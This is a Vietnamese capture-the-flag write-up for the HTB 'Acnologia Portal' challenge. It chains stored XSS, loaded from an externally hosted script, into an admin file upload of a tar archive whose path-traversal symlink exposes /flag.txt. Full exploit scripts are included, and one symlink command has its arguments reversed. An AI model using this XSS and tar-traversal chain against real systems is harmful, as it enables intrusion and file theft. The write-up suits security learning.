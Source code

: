 # HTB Cyber Apocalypse 2022 - Acnologia Portal

**Description**: Chall cho source code, một bài upload file via XSS.

*Note*: Flag nằm ở `/flag.txt`

## Review Source Code

file `blueprints/routes.py`:
```python
import json
# ........

@api.route('/login', methods=['POST'])
def user_login():
# ..........

@api.route('/register', methods=['POST'])
def user_registration():
# ........

# .....

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    visit_report()
    migrate_db()

    return response('Issue reported successfully!')

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403

@web.route('/review', methods=['GET'])
@login_required
@is_admin
def review_report():
    Reports = Report.query.all()
    return render_template('review.html', reports=Reports)

```

file `util.py`:
```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

Để review source-code, về cơ bản:

1. Website có tính năng report firmware cùng với description gửi cho admin(con bot) và chỗ này dính XSS.
2. Có tính năng update firmware hay upload file nhưng chỉ admin mới có thể dùng tính năng này.
3. Nếu file được upload là 1 file tar nó sẽ được tự động extract ra thư mục chứa file.
4. File name không hề được validate và dính lỗi path traversal.


**Ý tưởng**: Bởi vì chỉ admin mới có thể upload file, ta XSS tạo code javascript có chức năng tự request đến endpoint và upload 1 file tar, cái mà sẽ được tự động extract. File tar chứa file 1 symlink với tên path traversal `../../app/application/static/css/main.css` trỏ đến `../../../../flag.txt`. 

Từ đó, ta có thể truy cập đến `/static/css/main.css`(endpoint được public nay là 1 symlink) để đọc flag.

## Exploit 

**Step 1**: Đầu tiên ta tạo 1 file symlink có tên là `payload` trỏ đến `../../../../flag.txt`
```bash
ln -s payload ../../../../flag.txt
```
**Step 2**: file `createTar.py`: tạo 1 file tar và add file symlink và đổi tên thành `../../app/application/static/css/main.css`
```python
import tarfile

tar = tarfile.open("file.tar.gz","w:gz")

tar.add('payload', '../../app/application/static/css/main.css')
tar.list()
tar.close()
```

*Tham khảo*: 

https://docs.python.org/3/library/tarfile.html

https://linuxconfig.org/how-to-create-and-manipulate-tar-archives-using-python


Giờ đây ta được `file.tar.gz` gồm 1 symlink trỏ đến flag và tên path traversal overwrite `main.css`

**Step 3**: https://www.dubget.com/file-upload-via-xss.html

Một bài upload file thông qua XSS, ta tham khảo được javascrip function `base64toBlob()` nhận đầu vào là 1 file tar được encode dạng chuỗi base64 có thể decode lại dưới format binary.

```bash
cat file.tar.gz | base64 # Ta được chuỗi base64
```

**Step 4**: Với file dưới dạng chuỗi base64, và hàm `base64toBlob()` ta build tiếp payload XSS upload file tar này khi submit cho admin.

file `exploit.js`:
```js
// <script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>

var b64file = "H4sICLe0gmIC/2ZpbGUudGFyAO3TzUrEMBSG4ay9il5BfpvGLgZm6dJbCLUzBNuxTDPQyzdlQAVRF6Mj6PtwkhOSQLL5pJJqex+Xuz4+9EfxI/TZR11rV7+u132jrbGiWsQVnOYcj+V58T/Z22rMaew3pvE2OKfbVrrQOuObG4E/T0pVKk7TOobUxZyeDqpkIqdOdfOsxpgOsiwuzH8IYe0meP22v2Te1LbW3lnrndBlbryo7Plz72s3xL3MS/7O/D/GIX1276tzAAAAAAAAAAAAAAAA4Bc8A3dU6fEAKAAA";

function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

// var file = new File([atob(base64)], "flag.tar.gz", {
//   type: "text/plain",
// });


var data = new FormData();
data.append('file', blob, 'file.tar.gz');

// LUU Y: May option nhu cors, headers... vo van co the prevent upload file.
fetch("http://localhost:1337/api/firmware/upload", {
  "body": data,
  "method": "POST"
});
```

**Step 5**: Cuối cùng file `exploit.py`, file này đơn giản là login rồi report payload XSS là 1 tag script trỏ đến file `exploit.js` ta đang host.
```python
import requests

url = 'http://134.209.177.202:31877'
s = requests.Session()

register = s.post(url+'/api/register', json={'username': '1', 'password': '1'})
login = s.post(url+'/api/login', json={'username': '1', 'password': '1'})

payload = '<script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>'
report = s.post(url+'/api/firmware/report', json={'module_id': '1', 'issue': payload})

print(report.text)
```

Chui đến: `http://ip:port/static/css/main.css` ta được flag

![Acnologia_Portal_flag](https://user-images.githubusercontent.com/71699412/169696076-bffde5d0-7827-4a17-9633-61ccf0c1752e.jpg)

**flag**: `HTB{des3r1aliz3_4ll_th3_th1ngs}`

Attemp upload `__init__.py` để RCE luôn nhưng bất thành: https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution
